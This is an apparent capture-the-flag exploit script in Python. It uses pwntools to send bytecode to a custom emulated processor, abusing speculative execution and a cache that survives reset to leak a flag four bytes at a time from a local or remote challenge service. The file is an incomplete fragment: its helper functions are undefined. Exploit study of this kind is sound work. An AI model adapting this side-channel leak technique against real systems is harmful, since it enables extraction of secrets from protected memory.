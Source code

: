 ```python
    HALT = 'H'

PC = 0x100000
SP = 0x200000
FLAG = 0x300000
MM = 0x400000

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
# pwndbg tele command
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

flag = b""
i = 0x0
while i < 0x10:
    payload = b''
    # io access, block validator
    # read will store data in r0
    payload += int_read()
    # speculation: r0 - r1 = 0x0
    payload += sub()
    # speculation: don't take jump
    payload += jmp_neq(0x20)
    # +0x2 otherwise last access will reach EOF and return 0
    payload += load_addr(FLAG + i * 0x4+0x2)
    # store flag bytes, will also store them in cache
    payload += store(MM)
    payload = payload.ljust(0x20, nop())
    # after reset 0x42 read will cause jump to be taken
    # reset however did not clear cache => can load flag bytes from cache
    payload += load_addr(MM)
    payload += mov_r0_r1()
    payload += int_write()
    payload += halt()

    with open("prog.bin", 'wb') as f:
        f.write(payload)

    io = start(argv, env=env)
    if args.LOCAL:
        io.send(p32(0x42))
        leak = io.recv(100, timeout=0.5)
        print(leak)
        if leak != p32(0x0):
            flag += leak
            print(f"Flag: {flag}, index: {i}")
            i += 1
    else:
        io.sendlineafter("hex:", payload.hex())
        io.send(p32(0x42))

        leak = io.recv(4)
        if leak != p32(0x0):
            flag += leak
            print(f"Flag: {flag}, index: {i}")
            i += 1
```